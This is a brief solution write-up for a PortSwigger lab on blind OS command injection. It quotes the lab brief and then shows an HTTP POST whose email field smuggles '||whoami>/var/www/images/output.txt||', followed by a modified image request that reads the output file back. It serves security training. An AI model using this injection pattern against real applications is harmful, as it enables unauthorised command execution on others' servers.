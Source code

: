 # Blind OS command injection with output redirection

## This lab contains a blind [OS command injection](https://portswigger.net/web-security/os-command-injection) vulnerability in the feedback function.

## The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command. There is a writable folder at:

## `/var/www/images/`

## The application serves the images for the product catalog from this location. You can redirect the output from the injected command to a file in this folder, and then _use the image loading URL to retrieve the contents of the file_.

## To solve the lab, execute the `whoami` command and retrieve the output.

---

### step 1

whoami > /var/www/images/output.txt

csrf=J60D36lA81EHJ9W3GtrkPVGywDrTS2Se&name=mantoo&email=jemof16874%40jobsfeel.com||whoami>/var/www/images/output.txt||
&subject=how+to&message=hi+i+am+new+in+this

### step2

_use the image loading URL to retrieve the contents of the file_.
open images and intercept
GET /image?filename=22.jpg HTTP/1.1
and change the image name
GET /image?filename=output.txt HTTP/1.1
